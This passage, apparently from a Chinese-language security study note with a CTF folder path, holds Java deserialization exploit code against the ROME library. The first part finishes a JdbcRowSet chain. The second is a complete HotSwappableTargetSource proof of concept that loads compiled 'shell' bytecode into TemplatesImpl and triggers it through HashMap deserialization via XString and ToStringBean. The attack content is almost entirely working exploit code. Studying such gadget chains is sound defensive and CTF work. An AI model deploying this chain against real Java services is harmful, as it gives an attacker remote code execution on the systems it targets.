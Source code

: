 ```plain
        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,jdbcRowset);
//        serialize(hashMap);
        unserialize("ser.bin");
}

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(HotSwappableTargetSource):

这条是spring原生的toString利用链，后续在研究，调用链如下

```plain
* HashMap.readObject
* HashMap.putVal
* HotSwappableTargetSource.equals
* XString.equals
* ToStringBean.toString
public class ROME_HotSwappableTargetSource {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] bytecodes = Files.readAllBytes(Paths.get("D:\\CTF\\Security_Learning\\ROME\\target\\classes\\shell.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {bytecodes});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(TemplatesImpl.class,templatesimpl);
        toStringBean.toString();

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("xxx"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(h1,h1);
        hashMap.put(h2,h2);

        Serial.Serialize(hashMap);
        Serial.DeSerialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

}
```
